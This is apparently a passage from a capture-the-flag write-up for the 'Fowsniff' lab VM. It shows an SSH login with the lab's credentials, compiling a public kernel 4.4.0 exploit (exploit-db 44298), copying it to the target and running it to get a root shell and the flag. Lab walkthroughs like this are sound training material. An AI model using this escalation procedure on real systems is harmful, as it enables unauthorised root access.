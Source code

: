 PS: Make sure you change your email password. 
AJ had been telling us to do that right before Captain Profanity showed up.

.
## [ssh]
login : baksteen
password : S1ck3nBluff+secureshell

$ uname -a
Linux fowsniff 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux


## [https://www.exploit-db.com/exploits/44298]

# gcc exploit_linux_kernel_4.4.0.c -o exploit_linux_kernel_4.4.0
root@kali:~/pentest/fowsniff# scp exploit_linux_kernel_4.4.0 baksteen:S1ck3nBluff+secureshell@11.0.0.20:/tmp
ssh: Could not resolve hostname baksteen: Name or service not known
lost connection
root@kali:~/pentest/fowsniff# scp exploit_linux_kernel_4.4.0 baksteen@11.0.0.20:/tmp
baksteen@11.0.0.20's password: 
exploit_linux_kernel_4.4.0             

$ cd /tmp
baksteen@fowsniff:/tmp$ ls
exploit_linux_kernel_4.4.0  systemd-private-d8f445238bfa493b9103df72f34ee8f5-dovecot.service-C5l8Px  systemd-private-d8f445238bfa493b9103df72f34ee8f5-systemd-timesyncd.service-ybYBru
baksteen@fowsniff:/tmp$ 
baksteen@fowsniff:/tmp$ 
baksteen@fowsniff:/tmp$ ./exploit_linux_kernel_4.4.0 
task_struct = ffff88001e3ed400
uidptr = ffff88001eaff004
spawning root shell
root@fowsniff:/tmp# cd /root
root@fowsniff:/root# ls
flag.txt  Maildir
root@fowsniff:/root# cat flag.txt 
   ___                        _        _      _   _             _ 
  / __|___ _ _  __ _ _ _ __ _| |_ _  _| |__ _| |_(_)___ _ _  __| |
 | (__/ _ \ ' \/ _` | '_/ _` |  _| || | / _` |  _| / _ \ ' \(_-<_|
  \___\___/_||_\__, |_| \__,_|\__|\_,_|_\__,_|\__|_\___/_||_/__(_)
               |___/ 

 (_)
  |--------------
  |&&&&&&&&&&&&&&|
  |    R O O T   |
  |    F L A G   |
  |&&&&&&&&&&&&&&|
  |--------------
  |
  |
  |
  |
  |